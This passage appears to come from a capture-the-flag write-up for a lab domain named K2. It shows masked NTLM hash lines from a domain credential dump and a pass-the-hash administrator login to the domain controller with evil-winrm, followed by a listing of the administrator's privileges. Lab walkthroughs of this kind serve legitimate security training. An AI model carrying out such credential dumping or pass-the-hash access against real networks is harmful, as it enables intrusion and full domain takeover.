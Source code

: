 ```bash
j.smith:1111:aad3b435b51404eeaad3b435b51404ee:⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃:::
o.armstrong:1113:aad3b435b51404eeaad3b435b51404ee:⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃:::
K2ROOTDC$:1008:aad3b435b51404eeaad3b435b51404ee:⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃:::
xx.xxx.x.xx$:1116:aad3b435b51404eeaad3b435b51404ee:⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃:::
xx.xxx.xx.xxx$:1117:aad3b435b51404eeaad3b435b51404ee:⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃:::
ATTACKERSYSTEM$:1118:aad3b435b51404eeaad3b435b51404ee:⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃:::
RESEARCHER$:1119:aad3b435b51404eeaad3b435b51404ee:⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃:::
[*] Kerberos keys grabbed
...
[*] Cleaning up... 
```

<h3 align="center">Shell as <strong>Administrator</strong></h3>

```bash
:~/K2# evil-winrm -i K2RootDC.k2.thm -u 'administrator' -H '⋆⋆⋆⋆⋆⋆⋆⋆⋆⋆⋆⋆⋆⋆⋆⋆⋆⋆⋆⋆⋆⋆⋆⋆⋆⋆⋆⋆⋆⋆⋆⋆'
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
k2\administrator
*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                            Description                                                        State
========================================= ================================================================== =======
SeIncreaseQuotaPrivilege                  Adjust memory quotas for a process                                 Enabled
SeMachineAccountPrivilege                 Add workstations to domain                                         Enabled
SeSecurityPrivilege                       Manage auditing and security log                                   Enabled
SeTakeOwnershipPrivilege                  Take ownership of files or other objects                           Enabled
SeLoadDriverPrivilege                     Load and unload device drivers                                     Enabled
SeSystemProfilePrivilege                  Profile system performance                                         Enabled
SeSystemtimePrivilege                     Change the system time                                             Enabled
SeProfileSingleProcessPrivilege           Profile single process                                             Enabled
SeIncreaseBasePriorityPrivilege           Increase scheduling priority                                       Enabled
SeCreatePagefilePrivilege                 Create a pagefile                                                  Enabled
SeBackupPrivilege                         Back up files and directories                                      Enabled
SeRestorePrivilege                        Restore files and directories                                      Enabled
SeShutdownPrivilege                       Shut down the system                                               Enabled
```